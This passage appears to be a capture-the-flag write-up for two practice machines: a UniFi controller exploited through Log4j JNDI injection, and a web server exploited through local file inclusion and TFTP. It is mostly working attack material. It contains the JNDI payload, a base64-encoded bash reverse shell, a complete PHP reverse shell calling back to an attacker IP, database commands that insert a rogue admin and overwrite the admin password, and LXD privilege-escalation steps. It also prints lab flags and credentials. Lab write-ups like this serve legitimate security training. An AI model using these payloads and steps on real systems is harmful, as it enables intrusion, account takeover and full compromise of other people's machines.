4. Let's just search it on google with `Unifi 6.4.54 exploit` , we find a useful webpage https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi, which mention **Log4j vulnerabilities in Unifi software** with **CVE-2021-44228**

5. As mentioned, the vulnerability is in the *remember* field or *username* field, we can exploit this by **Burp** sending request. There are two ways to test for vulnerability echoing: **1) DNSlog 2) tcpdump**

   > https://www.youtube.com/watch?v=NLf1xzdlfCE tcpdump to monitor network traffic
   >
   > https://xz.aliyun.com/t/9747 DNSlog to monitor subdomain query

   The payload for the remember parameter `${jndi:ldap://{Tun0_IP}/whatever}`, we would send as **string** to prevent it being parsed as another JSON object

   > `"${jndi:ldap://10.10.15.117/whatever}"`

   

6. After sending the request, we test by `tcpdump`, port **389** is tested as ldap run at that port

   ```bash
   sudo tcpdump -i tun0 port 389
   ```

   

   Packet is recieved which means it is **vulnerable**

   > The drawback of this test is expose our IP, a better method would be using DNSlog

7. Now, we have to prepare a **malicious LDAP server for JNDI injection attacks**, we can git clone from https://github.com/veracode-research/rogue-jndi. There are some prerequisites like install `Open-JDK` and `Maven`

   ```bash
   sudo apt update
   sudo apt install openjdk-11-jdk -y
   sudo apt install maven
   git clone https://github.com/veracode-research/rogue-jndi
   cd rogue-jndi
   mvn package
   ```

   This will create a `.jar` file in `rogue-jndi/target/` directory called `RogueJndi-1.1.jar`. Now we can construct our payload to pass into the `RogueJndi-1-1.jar` Java application.

8. We prepare the payload encoded by Base64 to prevent any encoding issue

   ```bash
   echo 'bash -c bash -i >&/dev/tcp/{TUN0_IP}/4444 0>&1' | base64
   ```

   > echo 'bash -c bash -i >&/dev/tcp/10.10.15.117/4444 0>&1' | base64
   >
   > YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTE3LzQ0NDQgMD4mMQo=

9. After the payload has been created, start the Rogue-JNDI application while passing in the payload as part of
   the `--command` option and your `tun0` IP address to the `--hostname` option

   ```bash
   java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,{BASE64_Payload}}|{base64,-d}|{bash,-i}" --hostname "{TUN0_IP}"
   ```

   > java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTE3LzQ0NDQgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.15.117"
   >
   > **It would not work if there is a ENTER character in between your command!**

10. Now that the server is listening locally on port `1389` 

    

    Let's open another terminal and start a Netcat listener to capture the reverse shell

    ```bash
    nc -lvp 4444
    ```

11. Going back to our intercepted POST request, let's change the payload to`${jndi:ldap://{Tun0_IP}:1389/o=tomcat}` and click **Send**. The payload would be execute and thus connect a reversed shell.

    > "${jndi:ldap://10.10.15.117:1389/o=tomcat}"

12. We have captured reverse shell, then **upgrade** our shell

    ```bash
    script /dev/null -c bash
    ```

    

13. The user flag is in `/home/michael/user.txt` (*6ced1a6a89e666c0620cdb10262ba127*)

14. As the hints, we have to look deeper for the mongoDB running on the victim

    ```bash
    ps aux | grep mongo
    ```

    

    Mongod is running on port **27117**

15. We would like to connect to the database by `mongo` utility

    ```bash
    mongo --port 27117
    ```

16. After we connect to `mongo`, we can explore the database (`help`,`show dbs`, etc.)

    

    Database `ace` is the default Unifi database by some researching on Google

17. We can find out the admin credentials in the **ace** database by running after `use ace;` then `db.admin.find().forEach(printjson);`

    

    Here, we find the x_shadow hash for *adminstrator* is *$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.*

18. By the following topic https://community.ui.com/questions/How-to-recover-access-to-a-unifi-controller-when-the-admin-password-has-been-lost-/bea32e54-c8cd-4d08-ba98-b836acebfeb4, we know that we can **reset the password of the administrator**, (there are also other ways provided by *sprocketsecurity* which are **craking the hashes** or **add our own shadow admin**)

19. We would choose to **create our own shadow admin**, as changing the password would make attention for the actual user, cracking the SHA-512 hash could take lots of time. By the following command, we can create a **SHA-512 hash** of the string **password**

    ```bash
    mkpasswd -m sha-512 password
    ```

    Insert the new admin user using `mongo` shell

    ```bash
    db.admin.insert({ "email" : "{name}@localhost.local", "last_site_name" : "default", "name" : "{name}", "time_created" : NumberLong(100019800), "x_shadow" : "{PASSWORD-HASH}" })
    ```

    > db.admin.insert({ "email" : "kogepan@localhost.local", "last_site_name" : "default", "name" : "kogepan", "time_created" : NumberLong(100019800), "x_shadow" : "$6$dmDm2G90xGJsQ1xv$jeF/BWNY.EPaO1Prr3HBiaBrhuDYiq40Jq4jLpP6jsLR8ujCoqklUTtTN52fC6jnpx8sd6EC5RDMw2JzCYXxi0" })

    

    Upon successful insertion, we can log into the management dashboard of the UniFi Network.

20. However, the above method of creating a new account would lead to a new UI, causing us cannot steal the SSH credentials in old UI. We would update the password of the `administrator` into `password` and login as user `administrator`

    > ObjectId is the same as the admin user, x_shadow is the SHA-512 hash of **password**

    ```bash
    db.admin.update({"_id":
    ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$dmDm2G90xGJsQ1xv$jeF/BWNY.EPaO1Prr3HBiaBrhuDYiq40Jq4jLpP6jsLR8ujCoqklUTtTN52fC6jnpx8sd6EC5RDMw2JzCYXxi0"}})
    ```

    

21. Now, we finally reach the intended old UI, where we can steal the SSH credential of the **root** user (*NotACrackablePassword4U2022*)

    

22. Let's SSH into the machine as root user, the flag is in **/root/root.txt** (*e50bc93c75b634e4b272d2f771c33681*)

    

# 2.5 Included

1. As the hints given, there are UPD port running, we have to scan the UDP port

   ```bash
   nmap -sU <Target_IP>
   ```

   

   By running rustscan, we also know there are TCP running on port 80

   ```
   PORT	STATE	SERVICE	VERSION
   80/tcp	open	http    Apache httpd 2.4.29 ((Ubuntu))
   ```

2. The website is vulnerable with Local File Inclusion. If we cannot access `/etc/passwd` root directory directly, we may need to test by adding `../` in front until the brower appears the file

   ```
   http://<Target_IP>/?file=home.php
   http://<Target_IP>/?file=/etc/passwd
   ```

   

3. We can now try to get the source code of the website, reference from https://highon.coffee/blog/lfi-cheat-sheet/

   ```
   http://<Target_IP>/?file=php://filter/convert.base64-encode/resource=index.php
   ```

   We would get a string 

   *PD9waHAKaWYgKCRfR0VUWydmaWxlJ10pIHsKICAgIGluY2x1ZGUoJF9HRVRbJ2ZpbGUnXSk7Cn0gZWxzZSB7CiAgICBoZWFkZXIoIkxvY2F0aW9uOiBodHRwOi8vJF9TRVJWRVJbSFRUUF9IT1NUXS9pbmRleC5waHA/ZmlsZT1ob21lLnBocCIpOwp9Cj8+Cg==*

   Then encrypt by cyberchef

   *<?php*
   *if ($GET['file']) {
       include($GET['file']);*
   *} else {*
       *header("Location: http://$_SERVER[HTTP_HOST]/index.php?file=home.php");*
   *}*
   *?>*

4. We can also fuzz by the wordlist to check any other file https://github.com/DragonJAR/Security-Wordlist/blob/main/LFI-WordList-Linux, there are fuzzing tools like Burp

5. We can try to run a python server on our machine, and see if there is remote file inclusion vulnerability

   ```bash
   cd ~
   #prepapre a shell.php
   python -m http.server 80 #standup a server
   http://<Target_IP>/?file=http://<Tun0_IP>/shell.php #access it in the browser
   ```

   The python server would receive a hit, if the file is being accessed successfully. However, it is not the case

6. As we know that the machine is running **tftp** service, let's try if we can `get` or `put` any file on the machine

   ```
   tftp <Target_IP>
   ```

   Before we upload our shell.php, we would like to upload a lightwegith txt file first, to double check where the file will be uploaded. By googling the default directory of the tftp would be `/var/lib/tftpboot/`. (If the default directory not work, we can still look for the **config file** of tftp) A list of commands can be used for tftp:

   

   Then we upload it on the victim

   ```
   tftp> put tmp.txt
   ```

7. By the vulnerability of LFI, we can view what we have uploaded

   ```
   http://<Target_IP>/?file=/var/lib/tftpboot/tmp.txt
   ```

   

8. It's time for us to upload a reverse shell php file on it. Let's prepare a reverse shell from https://www.revshells.com/

   ```php
   <?php
   // php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
   // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
   
   set_time_limit (0);
   $VERSION = "1.0";
   $ip = '10.10.15.239';
   $port = 1337;
   $chunk_size = 1400;
   $write_a = null;
   $error_a = null;
   $shell = 'uname -a; w; id; sh -i';
   $daemon = 0;
   $debug = 0;
   
   if (function_exists('pcntl_fork')) {
   	$pid = pcntl_fork();
   	
   	if ($pid == -1) {
   		printit("ERROR: Can't fork");
   		exit(1);
   	}
   	
   	if ($pid) {
   		exit(0);  // Parent exits
   	}
   	if (posix_setsid() == -1) {
   		printit("Error: Can't setsid()");
   		exit(1);
   	}
   
   	$daemon = 1;
   } else {
   	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
   }
   
   chdir("/");
   
   umask(0);
   
   // Open reverse connection
   $sock = fsockopen($ip, $port, $errno, $errstr, 30);
   if (!$sock) {
   	printit("$errstr ($errno)");
   	exit(1);
   }
   
   $descriptorspec = array(
      0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
      1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
      2 => array("pipe", "w")   // stderr is a pipe that the child will write to
   );
   
   $process = proc_open($shell, $descriptorspec, $pipes);
   
   if (!is_resource($process)) {
   	printit("ERROR: Can't spawn shell");
   	exit(1);
   }
   
   stream_set_blocking($pipes[0], 0);
   stream_set_blocking($pipes[1], 0);
   stream_set_blocking($pipes[2], 0);
   stream_set_blocking($sock, 0);
   
   printit("Successfully opened reverse shell to $ip:$port");
   
   while (1) {
   	if (feof($sock)) {
   		printit("ERROR: Shell connection terminated");
   		break;
   	}
   
   	if (feof($pipes[1])) {
   		printit("ERROR: Shell process terminated");
   		break;
   	}
   
   	$read_a = array($sock, $pipes[1], $pipes[2]);
   	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
   
   	if (in_array($sock, $read_a)) {
   		if ($debug) printit("SOCK READ");
   		$input = fread($sock, $chunk_size);
   		if ($debug) printit("SOCK: $input");
   		fwrite($pipes[0], $input);
   	}
   
   	if (in_array($pipes[1], $read_a)) {
   		if ($debug) printit("STDOUT READ");
   		$input = fread($pipes[1], $chunk_size);
   		if ($debug) printit("STDOUT: $input");
   		fwrite($sock, $input);
   	}
   
   	if (in_array($pipes[2], $read_a)) {
   		if ($debug) printit("STDERR READ");
   		$input = fread($pipes[2], $chunk_size);
   		if ($debug) printit("STDERR: $input");
   		fwrite($sock, $input);
   	}
   }
   
   fclose($sock);
   fclose($pipes[0]);
   fclose($pipes[1]);
   fclose($pipes[2]);
   proc_close($process);
   
   function printit ($string) {
   	if (!$daemon) {
   		print "$string\n";
   	}
   }
   
   ?>
   ```

9. We have got a shell

   

10. And for sure, we are particularly interested for the `/var/www/html` folder as it is where the webpage is stored

    ```bash
    ls /var/www/html -lart
    ```

    

    And we have got a credential of **mike**, *Sheffield19*

11. Now we can literal movement to user **mike**, and get the user flag *a56ef91d70cfbf2cdb8f454c006935a1*

    

12. After gaining the user's privilege to run any code, we would like to run a **linpeas** script for possible **privilege escalation**. As the machine is not connected to internet, we would upload the script via tftp

    ```bash
    wget https://github.com/carlospolop/PEASS-ng/releases/download/20221225/linpeas.sh #on kali
    tftp <Target_IP> #on kali
    tftp> put linpeas.sh #upload via tftp
    cp linpeas.sh /tmp #we cannot run the linpeas at /var/lib/tftpboot folder
    chmod +x linpeas.sh #add execution mode
    ./linpeas.sh
    ```

    

    From the result, group **lxd** is a 95% PE vector, just go to **hacktricks** to know how https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

13. We then try the method 1

    You can install in your machine this distro builder: [https://github.com/lxc/distrobuilder ](https://github.com/lxc/distrobuilder)(follow the instructions of the github):

    ```bash
    sudo su
    #Install requirements
    sudo apt update
    sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools
    #Clone repo
    git clone https://github.com/lxc/distrobuilder
    #Make distrobuilder
    cd distrobuilder
    make
    #Prepare the creation of alpine
    mkdir -p $HOME/ContainerImages/alpine/
    cd $HOME/ContainerImages/alpine/
    wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
    #Create the container
    sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
    ```

    Then, upload to the vulnerable server the files **lxd.tar.xz** and **rootfs.squashfs**

    Add the image:

    ```bash
    lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
    lxc image list #You can see your new imported image
    ```

    

    Create a container and add root path

    ```bash
    lxc init alpine privesc -c security.privileged=true --alias=alpine
    lxc list #List containers
    
    lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
    ```

    Execute the container:

    ```bash
    lxc start privesc
    lxc exec privesc /bin/sh
    [email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
    ```

14. The flag is in **/mnt/root/root/root.txt** *c693d9c7499d9f572ee375d4c14c7bcf*
